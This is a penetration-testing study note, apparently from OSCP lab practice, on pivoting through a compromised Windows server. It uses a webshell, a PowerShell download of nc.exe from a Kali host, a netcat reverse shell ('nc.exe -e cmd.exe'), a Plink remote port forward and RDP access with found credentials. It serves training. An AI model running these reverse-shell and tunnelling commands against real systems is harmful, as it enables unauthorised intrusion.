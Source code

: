 
# Using Plink on Windows
In some cases, network admins don't want to have OpenSSH installed on their [Windows](../../../computers/windows/README.md) hosts and they sometimes remove it. Without OpenSSH, most network admins, who still need to be able to connect to their servers, use [_PuTTY_](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html).
## PuTTY
PuTTY is a tool you can use to make various kinds of connections to systems on a local or remote network. It can be used for Console connections, [telnet](../../../networking/protocols/telnet.md), SSH, etc.. PuTTY can be used via the GUI but it *also has a command line tool* called "[_Plink_](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html)"
## Plink
According to the [Plink manual](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html), Plink has *most of the tools that OpenSSH offers*. HOWEVER, it still does not support [remote dynamic port forwarding](../SSH-tunneling/remote-dynamic-port-forwarding.md) unfortunately :(.
## Scenario
Assume the following scenario: two servers sit in the target's [DMZ](../../../networking/design-structure/DMZ.md) `CONFLUENCE01` and `MULTISERVER03`. They are both *protected by firewalls* b/w the [WAN](../../../networking/design-structure/WAN.md) and the DMZ [subnet](../../../PNPT/PEH/networking/subnetting.md), but `MULTISERVER03` has *port 80* open to the WAN. 
![](../../oscp-pics/plink-1.png)
Assume we can get a [web-shell](../../../cybersecurity/TTPs/exploitation/web-shell.md) on `MULTISERVER03` which gives us a command line, but we can't use something like [RDP](../../../networking/protocols/RDP.md) for GUI access (because the Firewall is blocking all other connections). Assume we also have found some credentials.
### Getting a Revshell
We can access our webshell on `MULTISERVER03` by browsing to the URL `/umbraco/forms.aspx` and when we use it to run commands, they execute as the `apppool\defaultapppool` user (Windows IIS). 

We need to establish a [revshell](../../../cybersecurity/TTPs/exploitation/rev-shell.md) for better access and a more interactive shell. We can use the webshell to download `nc.exe`- the Windows version of [netcat](../../../cybersecurity/TTPs/exploitation/tools/netcat.md). To do that, we need to host the binary on our Kali machine
#### Configuring Apache2
On our Kali machine, we can use Apache2 to start a web server for hosting our netcat binary. First, we need to start the `apache2` service using `systemctl`:
```bash
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```
Fortunately, `nc.exe` is already available to us on our Kali machine at `/usr/share/windows-resources/binaries/nc.exe`. So we can copy that into our *Apache webroot*:
```bash
kali@kali:~$ find / -name nc.exe 2>/dev/null
/usr/share/windows-resources/binaries/nc.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
```
Now that our server is started and `nc.exe` is being serverd from the webroot, we should be able to download it from the Windows machine via `wget`:
```bash
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```
#### Executing `nc.exe`
Now with `nc.exe` on our Windows host, we can setup a listener on our Kali machine:
```bash
kali@kali:~$ nc -nvlp 4446
listening on [any] 4446 ...
```
Now, we can execute `nc.exe` to *connect back to our listener* by giving the following command *through our webshell*:
```powershell
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.118.4 4446
```
If it worked, we should see the following output on our Kali netcat listener:
```bash
...
listening on [any] 4446 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.64] 51889
Microsoft Windows [Version 10.0.20348.825]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```
### Downloading Plink onto `MULTISERVER03`
We can get the plink binary from our kali machine at `/usr/share/windows-resources/binaries/plink.exe`. Again, we can copy it to our Apache 2 webroot to serve it so we can then fetch it from the compromised Windows host:
```bash
kali@kali:~$ find / -name plink.exe 2>/dev/null
/usr/share/windows-resources/binaries/plink.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
[sudo] password for kali: 

kali@kali:~$ 
```
To fetch plink, we can run the following command from our revshell (this is a [PowerShell](../../../coding/languages/powershell.md) one-liner):
```powershell
c:\windows\system32\inetsrv>powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe

c:\windows\system32\inetsrv>
```
### Using Plink
We can use plink to set up a [remote port forward](../SSH-tunneling/remote-port-forwarding.md) so we can access `MULTISERVER03`'s RDP port from our attacking Kali machine. The command is similar to the one used for OpenSSH, but one big difference is *we have to give our password in the command*. That means it will likely *get logged somewhere* on the Windows machine we run plink on:
```powershell
c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
The host key is not cached for this server:
  192.168.118.4 (port 22)
You have no guarantee that the server is the computer
you think it is.
The server's ssh-ed25519 key fingerprint is:
  ssh-ed25519 255 SHA256:q1QQjIxHhSFXfEIT4gYrRF+zKr0bcLMOJljoINxThxY
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n, Return cancels connection, i for more info) y
Using username "kali".
Linux kali 5.16.0-kali7-amd64 #1 SMP PREEMPT Debian 5.16.18-1kali1 (2022-04-01) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 21 15:50:39 2022 from 192.168.50.64
kali@kali:~$ 
```
> [!Note]
> In case you have to run this command from a non-[TTY](../../../computers/linux/terminal-tty-shell.md) shell or on a limited Windows shell, you may not be able to input `y` to the cache key prompt. In that case, you can pipe your input into `plink.exe` instead:
>
> `cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7`

If the plink command worked, then port `9833` should be open on *our attacking machine's [loopback](../../../networking/routing/loopback.md) interface*. Since it's port-forwarding to the [RDP](../../../networking/protocols/RDP.md) port on `MULTISERVER03`, we can use [xfreerdp](../../../CLI-tools/linux/remote/xfreerdp.md) to connect to it with the `rdp_admin` user:
```bash
kali@kali:~$ xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833  
...
Certificate details for 127.0.0.1:9833 (RDP-Server):
        Common Name: MULTISERVER03
        Subject:     CN = MULTISERVER03
        Issuer:      CN = MULTISERVER03
        Thumbprint:  4a:11:2d:d8:03:8e:dd:5c:f2:c4:71:7e:15:1d:20:fb:62:3f:c6:eb:3d:77:1e:ea:44:47:10:42:49:fa:1e:6a
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) y
[05:11:17:430] [1072332:1072333] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Eastern
...
```

> [!Resources]
> - [_PuTTY_](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
> - [_Plink_](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html)
> - [Plink manual](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.